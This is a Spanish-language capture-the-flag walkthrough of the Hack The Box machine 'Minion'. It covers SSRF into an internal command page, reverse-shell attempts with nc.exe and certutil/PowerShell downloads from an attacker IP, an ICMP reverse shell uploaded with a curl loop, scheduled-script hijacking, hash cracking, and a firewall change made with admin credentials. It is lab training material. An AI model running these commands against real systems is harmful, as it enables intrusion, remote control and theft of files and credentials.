\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.57 }
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.57 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p62696 10.10.10.57 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
62696 & http - IIS & Web, fuzzing, .asp &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-la-web-3}{%
\subsection*{Analizando la web}\label{analizando-la-web-3}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-6}{%
\subsubsection*{Whatweb}\label{whatweb-6}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.57:62696}
\end{Highlighting}
\end{Shaded}

Nada muy interesante

\hypertarget{http-enum-3}{%
\subsubsection*{http-enum}\label{http-enum-3}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p62696 10.10.10.57 -oN webScan}
\end{Highlighting}
\end{Shaded}

No nos detecta nada

\hypertarget{chequear-la-web-por-puerto-62696}{%
\subsubsection*{Chequear la web por puerto 62696}\label{chequear-la-web-por-puerto-62696}}
\addcontentsline{toc}{subsubsection}{Chequear la web por puerto 62696}

Con firefox navegamos en la web para ver lo que es.

La pagina esta under construction y poco mas.

\hypertarget{fuzzing-con-wfuzz-2}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-2}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un ruta \texttt{/backend} pero no se ve nada en firefox. Decidimos fuzzear con la extension \texttt{.asp}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ.asp}
\end{Highlighting}
\end{Shaded}

Aqui encontramos un fichero \texttt{test.asp} y navigando no dice que no encuentra el parametro \texttt{u} que tendria que ser un URL.
Intentamos ver si se conecta a nuestro servidor web

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un servidor web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos conectar por la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://10.10.14.8}
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://10.10.14.8/test}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui no pasa nada. La idea aqui, como solo tiene un puerto abierto seria de explorar si tiene puerto privados usando localhost

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos que el puerto 80 interno de la maquina esta abierto. Decidimos descubrir los puertos abiertos de la maquina con WFUZZ

\hypertarget{descubrimiento-de-los-puertos-abiertos-con-wfuzz}{%
\subsection*{Descubrimiento de los puertos abiertos con WFUZZ}\label{descubrimiento-de-los-puertos-abiertos-con-wfuzz}}
\addcontentsline{toc}{subsection}{Descubrimiento de los puertos abiertos con WFUZZ}

Wfuzz permite hacer rangos de numeros con el parametro \texttt{-z}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ}
\end{Highlighting}
\end{Shaded}

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ}
\end{Highlighting}
\end{Shaded}

Aqui vemos que solo el puerto 80 esta abierto.

Esto funciona. Pero no vemos en la web el output del comando. Solo vemos el codigo de estado (0 si el comando a funcionado, 1 si no a funcionado)

\hypertarget{evaluacion-de-vulnerabilidades-10}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-10}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{analizamos-la-web-interna-por-el-puerto-privado-80}{%
\subsection*{Analizamos la web interna por el puerto privado 80}\label{analizamos-la-web-interna-por-el-puerto-privado-80}}
\addcontentsline{toc}{subsection}{Analizamos la web interna por el puerto privado 80}

Aqui se puede ver un panel de administrador donde parece que podamos ejecutar comandos a nivel de sistema. Si pinchamos el link
no nos va a dejar porque nos lleva a una url interna \texttt{127.0.0.1/cmd.aspx}. Pero si la introducimos directamente en

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx}
\end{Highlighting}
\end{Shaded}

functiona.

Si le lanzamos un whoami, nos redirige en una url un poco turbia. Analizando el codigo fuente vemos que la peticion es get con el
nombre xcmd.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=whoami}
\end{Highlighting}
\end{Shaded}

\hypertarget{controlamos-si-tenemos-conectividad-con-la-maquina-de-atacante}{%
\subsection*{Controlamos si tenemos conectividad con la maquina de atacante}\label{controlamos-si-tenemos-conectividad-con-la-maquina-de-atacante}}
\addcontentsline{toc}{subsection}{Controlamos si tenemos conectividad con la maquina de atacante}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por trasa ICMP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  en la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=ping 10.10.14.8}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Como es una maquina windows, tenemos que recivir 4 pings y es el caso. Tenemos conectividad con la maquina victima.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-10}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-10}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{entablar-una-reverse-shell}{%
\subsection*{Entablar una reverse shell}\label{entablar-una-reverse-shell}}
\addcontentsline{toc}{subsection}{Entablar una reverse shell}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Preparamos un nc.exe para la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe ./content}
\end{Highlighting}
\end{Shaded}
\item
  Nos creamos un registro compartido a nivel de red

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support}
\end{Highlighting}
\end{Shaded}
\item
  En la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=}\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.14.8\textbackslash{}smbFolder\textbackslash{}nc.exe -e cmd 10.10.14.8 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En este caso no responde y vemos un exit status 1. Intentamos de varias maneras

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un registro compartido a nivel de red

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support -username s4vitar -password s4vitar123}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=net use x: }\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.14.8\textbackslash{}smbFolder /user:s4vitar s4vitar123}
\end{Highlighting}
\end{Shaded}

No responde y vemos un exit status 2.

Intentamos con un servidor web.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un servidor web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=certutil.exe -f -urlcache -split http://10.10.14.8/nc.exe nc.exe}
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell iwr -uri http://10.10.14.8/nc.exe -OutFile test}
\end{Highlighting}
\end{Shaded}

No responde y vemos un exit status que no es 0.

Aqui vemos que las conexiones por TCP no funcionan. Puede ser porque hay reglas definidas que no permiten utilizar TCP y S4vitar
nos adelanta que tampoco funccionna por UDP.

Aqui hemos podido comprobar que:

\begin{itemize}
\tightlist
\item
  tenemos capacidad de ejecucion remota de commando.
\item
  tenemos conectividad por trasa ICMP
\item
  el protocolo TCP esta bloqueado
\item
  el protocole UDP esta bloqueado
\end{itemize}

Segun esta analisis intentamos crearnos una reverse shell por \textbf{ICMP}

\hypertarget{entablar-una-reverse-shell-por-icmp}{%
\subsection*{Entablar una reverse shell por ICMP}\label{entablar-una-reverse-shell-por-icmp}}
\addcontentsline{toc}{subsection}{Entablar una reverse shell por ICMP}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos descargamos el Nishang

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/samratashok/nishang}
\BuiltInTok{cd}\NormalTok{ nishang}
\BuiltInTok{cd}\NormalTok{ Shells}
\FunctionTok{cp}\NormalTok{ Invoke-PowerShellIcmp.ps1 ../../icmp.ps1}
\BuiltInTok{cd}\NormalTok{ ../..}
\ExtensionTok{vi}\NormalTok{ icmp.ps1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui como tenemos que pasar por la url de la web para enviarnos el fichero, tenemos que preparar el fichero.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Ejecucion de comandos prealables en nuestra maquina

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sysctl}\NormalTok{ -w net.ipv4.icmp_echo_ignore_all=1}
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py}
\end{Highlighting}
\end{Shaded}
\item
  Añadimos el invoke al final del fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Invoke-PowerShellIcmp}\NormalTok{ -IPAddress 10.10.14.8}
\end{Highlighting}
\end{Shaded}
\item
  Borramos todo los comentarios que hay en el fichero
\item
  Borramos todo los saltos de linea

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ icmp.ps1 }\KeywordTok{|} \FunctionTok{sed} \StringTok{'/^\textbackslash{}s*$/d'} \OperatorTok{>}\NormalTok{ icmp}
\FunctionTok{rm}\NormalTok{ icmp.ps1}
\FunctionTok{mv}\NormalTok{ icmp icmp.ps1}
\end{Highlighting}
\end{Shaded}
\item
  Utilizamos una powershell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{pwsh}
\end{Highlighting}
\end{Shaded}
\item
  Codificamos el fichero en base64

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$fileContent}\NormalTok{ = }\ExtensionTok{Get-Content}\NormalTok{ -Raw ./icmp.ps1}
\VariableTok{$fileContent}
\VariableTok{$bytes}\NormalTok{ = [}\ExtensionTok{System.Text.Encoding}\NormalTok{]::Unicode.GetBytes(}\VariableTok{$fileContent}\NormalTok{)}
\VariableTok{$encode}\NormalTok{ = [}\ExtensionTok{Convert}\NormalTok{]::ToBase64String(}\VariableTok{$bytes}\NormalTok{)}
\VariableTok{$encode} \KeywordTok{|} \ExtensionTok{Out-File}\NormalTok{ icmp.ps1.b64}
\end{Highlighting}
\end{Shaded}
\item
  En una shell linux normal modificamos los symbolos \texttt{+} y \texttt{=} para encodearlos en urlencode

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{php}\NormalTok{ --interactive}
\ExtensionTok{print}\NormalTok{ urlencode(}\StringTok{"+"}\NormalTok{);}
\ExtensionTok{%2B}
\ExtensionTok{print}\NormalTok{ urlencode(}\StringTok{"="}\NormalTok{);}
\ExtensionTok{%3D}
\end{Highlighting}
\end{Shaded}
\item
  Modificamos todos los symbolos \texttt{+} por \textbf{\%2B} y los symbolos \texttt{=} por \textbf{\%3D}
\item
  Spliteamos el fichero en dimensiones de lineas iguales

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{fold}\NormalTok{ icmp.ps1.b64 }\OperatorTok{>}\NormalTok{ icmp}
\end{Highlighting}
\end{Shaded}
\item
  Nos creamos un script para automatizar el envio de cada linea del fichero

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n\textbackslash{}n[!] Saliendo...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\KeywordTok{for} \ExtensionTok{line}\NormalTok{ in }\VariableTok{$(}\FunctionTok{cat}\NormalTok{ icmp.ps1.b64}\VariableTok{)}\KeywordTok{;} \KeywordTok{do}
    \VariableTok{command=}\StringTok{"echo }\VariableTok{$\{line\}}\StringTok{ >> C:\textbackslash{}Temp\textbackslash{}reverse.ps1"}
    \ExtensionTok{curl}\NormalTok{ -s -v -X GET }\StringTok{"http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx"}\NormalTok{ --data-urlencode }\StringTok{"xcmd=}\VariableTok{$command}\StringTok{"}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el Script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./fileUpload.sh}
\end{Highlighting}
\end{Shaded}
\item
  Controlamos en la web si el fichero existe

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type C:\textbackslash{}Temp\textbackslash{}reverse.ps1}
\end{Highlighting}
\end{Shaded}

  Vemos el status code a 0
\item
  Decodificamos desde la web el fichero que esta en base64

  \begin{itemize}
  \item
    las etapas serian estas

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$file}\NormalTok{ = }\ExtensionTok{Get-Content}\NormalTok{ C:\textbackslash{}Temp\textbackslash{}reverse.ps1 }
\VariableTok{$decode}\NormalTok{ = [}\ExtensionTok{System.Text.Encoding}\NormalTok{]::Unicode.GetString([System.Convert]::FromBase64String(}\VariableTok{$file}\NormalTok{))}
\VariableTok{$decode} \OperatorTok{>} \ExtensionTok{C}\NormalTok{:\textbackslash{}Temp\textbackslash{}pwned.ps1}
\end{Highlighting}
\end{Shaded}
  \item
    y en la url de la web seria:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell }\VariableTok{$file}\NormalTok{ = Get-Content C:\textbackslash{}Temp\textbackslash{}reverse.ps1}\KeywordTok{;} \VariableTok{$decode}\NormalTok{ = [}\ExtensionTok{System.Text.Encoding}\NormalTok{]::Unicode.GetString([System.Convert]::FromBase64String(}\VariableTok{$file}\NormalTok{)); }\VariableTok{$decode} \OperatorTok{>} \ExtensionTok{C}\NormalTok{:\textbackslash{}Temp\textbackslash{}pwned.ps1}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Lanzamos el script python previamente descargado

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ python icmpsh_m.py 10.10.14.8 10.10.10.57}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos el pwned.ps1 desde la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\textbackslash{}Temp\textbackslash{}pwned.ps1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Por fin estamos adentro de la maquina ;)

\hypertarget{escalada-de-privilegios-9}{%
\section*{Escalada de Privilegios}\label{escalada-de-privilegios-9}}
\addcontentsline{toc}{section}{Escalada de Privilegios}

\hypertarget{rootear-la-maquina-6}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-6}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\CommentTok{#Output}

\ExtensionTok{SEImpersonatePrivilege}
\end{Highlighting}
\end{Shaded}

Aqui ya vemos que podemos escalar privilegios con \texttt{JuicyPotatoe.exe} o \texttt{RotenPotatoe.exe} pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

\hypertarget{secuestro-de-comandos-para-copiar-los-ficheros-del-usuario-decoder.minion}{%
\subsubsection*{Secuestro de comandos para copiar los ficheros del usuario decoder.MINION}\label{secuestro-de-comandos-para-copiar-los-ficheros-del-usuario-decoder.minion}}
\addcontentsline{toc}{subsubsection}{Secuestro de comandos para copiar los ficheros del usuario decoder.MINION}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{ c:\textbackslash{}}
\NormalTok{dir c:\textbackslash{}sysadmscripts}
\end{Highlighting}
\end{Shaded}

Vemos en \texttt{C:\textbackslash{}} un directorio raro llamado \texttt{sysadmscript}. En este directorio, hay dos ficheros:

\begin{itemize}
\tightlist
\item
  c.ps1
\item
  del\_logs.bat
\end{itemize}

Analizando con el comando type lo que hacen estos script, vemos que el \texttt{del\_logs.bat} llama al fichero \texttt{c.ps1} y lo
ejecuta con \textbf{powershell}. Aqui pensamos que hay una tarea que se ejecuta a intervalo regular de tiempo que ejecuta el fichero
\texttt{del\_logs.bat}. Miramos si podemos modificar los ficheros.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cacls}\NormalTok{ c:\textbackslash{}sysadmscripts\textbackslash{}del_logs.bat}
\ExtensionTok{cacls}\NormalTok{ c:\textbackslash{}sysadmscripts\textbackslash{}c.ps1}
\end{Highlighting}
\end{Shaded}

Modificamos el Script para copiar los ficheros del usuario \textbf{decoder.Minion}

Aqui vemos que solo podemos modificar el fichero \texttt{c.ps1}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"dir C:\textbackslash{}Users\textbackslash{}decoder.MINION\textbackslash{}Desktop\textbackslash{} > C:\textbackslash{}Temp\textbackslash{}decoder_desktop.txt"} \OperatorTok{>}\NormalTok{ C:\textbackslash{}Temp\textbackslash{}c.ps1}
\BuiltInTok{echo} \StringTok{"copy C:\textbackslash{}Users\textbackslash{}decoder.MINION\textbackslash{}Desktop\textbackslash{}user.txt > C:\textbackslash{}Temp\textbackslash{}decoder_user.txt"} \OperatorTok{>>}\NormalTok{ C:\textbackslash{}Temp\textbackslash{}c.ps1}
\BuiltInTok{echo} \StringTok{"copy C:\textbackslash{}Users\textbackslash{}decoder.MINION\textbackslash{}Desktop\textbackslash{}* > C:\textbackslash{}Temp}\DataTypeTok{\textbackslash{}"}\StringTok{ >> C:\textbackslash{}Temp\textbackslash{}c.ps1}
\StringTok{copy C:\textbackslash{}Temp\textbackslash{}c.ps1 C:\textbackslash{}sysadmscripts\textbackslash{}c.ps1}
\end{Highlighting}
\end{Shaded}

Esperando un poco, nos copia los ficheros en \texttt{c:\textbackslash{}temp}. Podemos visualizar la flag del usuario.
Tambien vemos un fichero \texttt{backup.zip} y si le chequeamos por \textbf{Aditionnal Data Streams} con el comando

\hypertarget{lectura-de-additionnal-data-strems-y-crackeo-de-hash}{%
\subsubsection*{Lectura de Additionnal Data Strems y crackeo de Hash}\label{lectura-de-additionnal-data-strems-y-crackeo-de-hash}}
\addcontentsline{toc}{subsubsection}{Lectura de Additionnal Data Strems y crackeo de Hash}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Get-Item}\NormalTok{ -Path C:\textbackslash{}Temp\textbackslash{}backup.zip -stream *}
\end{Highlighting}
\end{Shaded}

Vemos que tiene un stream llamado pass. Lo miramos con el comando \texttt{type}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{type}\NormalTok{ C:\textbackslash{}Temp\textbackslash{}backup.zip:pass}
\end{Highlighting}
\end{Shaded}

y encontramos un hash. Si lo pasamos por \href{https://crackstation.net/}{crackstation} nos da la contraseña.

\hypertarget{ejecucion-de-comandos-como-administrator-con-scriptblock}{%
\subsubsection*{Ejecucion de comandos como administrator con ScriptBlock}\label{ejecucion-de-comandos-como-administrator-con-scriptblock}}
\addcontentsline{toc}{subsubsection}{Ejecucion de comandos como administrator con ScriptBlock}

Aqui el problema es que no tenemos conectividad con \textbf{smb} o otros puertos para conectarnos como root. La idea
aqui seria de ejecutar comandos como administrator para cambiar la reglas del Firewall.

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$user}\NormalTok{ = }\StringTok{'minion\textbackslash{}administrator'}\NormalTok{; }\VariableTok{$pw}\NormalTok{ = }\StringTok{'1234test'}\NormalTok{; }\VariableTok{$secpw}\NormalTok{ = }\ExtensionTok{ConvertTo-SecureString} \VariableTok{$pw}\NormalTok{ - AsPlainText -Force}\KeywordTok{;} \VariableTok{$cred}\NormalTok{ = }\ExtensionTok{New-Object}\NormalTok{ \textbackslash{}}
\NormalTok{System.Management.Automation.PSCredential }\VariableTok{$user}\NormalTok{, }\VariableTok{$secpw}\KeywordTok{;} \ExtensionTok{Invoke-Command}\NormalTok{ -ComputerName localhost -Credential }\VariableTok{$cred}\NormalTok{ -ScriptBlock }\DataTypeTok{\{whoami\}}

\CommentTok{#Output}
\ExtensionTok{minion}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podemos ejecutar comando como el usuario administrator. Vamos a por el cambio en el firewall

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$user}\NormalTok{ = }\StringTok{'minion\textbackslash{}administrator'}\NormalTok{; }\VariableTok{$pw}\NormalTok{ = }\StringTok{'1234test'}\NormalTok{; }\VariableTok{$secpw}\NormalTok{ = }\ExtensionTok{ConvertTo-SecureString} \VariableTok{$pw}\NormalTok{ - AsPlainText -Force}\KeywordTok{;} \VariableTok{$cred}\NormalTok{ = }\ExtensionTok{New-Object}\NormalTok{ \textbackslash{}}
\NormalTok{System.Management.Automation.PSCredential }\VariableTok{$user}\NormalTok{, }\VariableTok{$secpw}\KeywordTok{;} \ExtensionTok{Invoke-Command}\NormalTok{ -ComputerName localhost -Credential }\VariableTok{$cred}\NormalTok{ -ScriptBlock \textbackslash{}}
\NormalTok{\{New-NetFirewallRule -DisplayName setenso -RemoteAddress 10.10.14.8 -Direction inbound -Action Allow\}}

\CommentTok{#Output}
\ExtensionTok{minion}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Si ahora desde la maquina de atacante le hacemos un nmap para ver los puertos abiertos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.57}
\end{Highlighting}
\end{Shaded}

vemos que tenemos todo expuesto y como hay el puerto 3389 que es el puerto \textbf{RDP} ya nos podemos conectar con Remmina por ejemplo.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/minion-remina} \caption{minion remmina connection}\label{fig:unnamed-chunk-22}
\end{figure}

Y ya estamos en la maquina como administrator

\begin{figure}
